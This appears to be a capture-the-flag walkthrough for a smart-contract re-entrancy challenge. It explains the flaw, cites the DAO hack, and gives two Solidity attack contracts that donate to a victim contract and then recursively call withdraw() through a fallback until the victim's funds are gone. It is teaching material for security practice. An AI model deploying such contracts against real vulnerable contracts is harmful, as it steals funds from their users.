

# Day 10 - Re-entrancy

## What is re-entrancy

Re-entrancy happens in single-thread computing environments, when the execution stack jumps or calls subroutines, before returning to the original execution.

On one hand, this single-thread execution ensures contracts’ atomicity and eliminates some race conditions. On the other hand, **contracts are vulnerable to poor execution ordering.**


In the example above, Contract B is a malicious contract which recursively calls A.withdraw() to deplete Contract A’s funds. Note that the fund extraction successfully finishes before Contract A returns from its recursive loop, and even realizes that B has extracted way above its own balance.

**the DAO hack:**

- Fallback functions can be called by anyone & execute malicious code
- Malicious external contracts can abuse withdrawals

## Solution

1. Create a malicious contract called AttackReentrancy.sol, which will first donate to Reentrance.sol, and then recursively withdraw from it until Reentrance is depleted of funds.

2. Create a public function so AttackReentrancy.sol can donate to Reentrance.sol and be registered as a donor in its balances ledger:

Invoking this function will ensure that your malicious contract will be able to call withdraw() at least once, i.e. passing the if(balances[msg.sender] >= \_amount) check.



```js
pragma solidity ^0.6.0;

contract AttackReentrancy {
    address payable victim;

    constructor(address payable _victim) public payable {
        victim = _victim;

        // Call Donate
        bytes memory payload = abi.encodeWithSignature("donate(address)", address(this));
        victim.call{value: msg.value}(payload);
    }

    function maliciousWithdraw() public payable {
        // Call withdraw
        // https://www.reddit.com/r/ethdev/comments/fohqaw/understanding_the_intricacies_of_call/flihiaq/
        bytes memory payload = abi.encodeWithSignature("withdraw(uint256)", 0.5 ether);
        victim.call(payload);
    }

    fallback() external payable {
        maliciousWithdraw();
    }

    function withdraw() public {
        msg.sender.transfer(address(this).balance);
    }
}
```

or

```js
import 'Reentrance.sol';
contract AttackReentrancy {
    Reentrance victim;
    constructor(address payable _victim) public payable {
        victim = Reentrance(_victim);
        victim.donate{value: 1 ether}(address(this));
    }

    function maliciousWithdraw() public payable {
        victim.withdraw(0.5 ether);
    }


    function getBalance() public view returns (uint balance) {
        return address(this).balance;
    }

    function withdraw() public {
        msg.sender.transfer(address(this).balance);
    }

    fallback() external payable {
        maliciousWithdraw();
    }
}
```
